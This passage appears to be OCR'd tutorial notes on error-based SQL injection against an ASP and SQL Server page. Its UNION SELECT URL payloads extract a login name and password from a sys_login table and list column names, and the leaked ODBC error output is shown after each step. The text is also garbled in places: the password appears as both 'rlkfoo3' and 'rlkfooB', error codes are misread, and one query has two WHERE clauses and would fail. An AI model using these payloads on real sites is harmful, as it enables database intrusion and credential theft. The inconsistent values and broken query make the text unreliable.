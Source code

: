 > Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
> [Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'sys_login' to a column of data type int.
> /index.asp, line 6  

- The next step, obtain a `login_name` from the `sys_login table`:
  - `http://page/index.asp?id=20 UNION SELECT TOP 1 login_name FROM sys_login --`
  - The resulting **ODBC error message**:  
    - provides the login name `whiteknight` from the `sys_login` table

> Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
> [Microsoft][ODBC SQL Server Driver][SQL ServerJSyntax error converting the nvarchar value 'whiteknight’ to a column of data type int.
> /index.asp, line 6


- To obtain the password for whiteknight:
  - `http://page/index.asp?id=20 UNION SELECT TOP 1 password FROM sys_login where login_name='whiteknight' --`
  - The corresponding **ODBC error message**: gives the password for whiteknight is revealed: `rlkfoo3`.  

> Microsoft OLE DB Provider for ODBC Drivers error ‘80040907'
> [Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'rlkfooB' to a column of data type int.  
> /index.asp, line 6  

---


### Acquiring Table Column Names

Once table identified, obtaining the column names provides valuable information concerning the table and its contents.

Examples:
- acquire column names by accessing the database table `INFORMATION_SCHEMA.COLUMNS`.  
- The injection attack begins with the URL:
  - `http://page/index.asp?id=20 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME= 'parts' --`
  - The corresponding **ODBC error message**: gives the first column name in `Parts` table as `partnum`  

> Microsoft OLE DB Provider for ODBC Drivers error '80040e07‘
> [Microsoft] [ODBC SQL Server Driver] [SQL ServerJSyntax error converting the nvarchar value 'partnum' to a column of data type int.  
> /index.asp, line 6  

- To obtain, the second column name, the expression `not IN ()` can be applied as shown:  
  - `http://page/index.asp?id=20 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME= 'parts' WHERE COLUMN_NAME not IN ('partnum') --`  
  - The corresponding **ODBC error message**: provides the next column name as `partcost`.

> Microsoft OLE DB Provider for ODBC Drivers error '80040907‘
> [Microsoft] [ODBC SQL Server Driver] [SQL ServerJSyntax error converting the nvarchar value 'partcost‘ to a column of data type int.
> /index.asp, line 6  
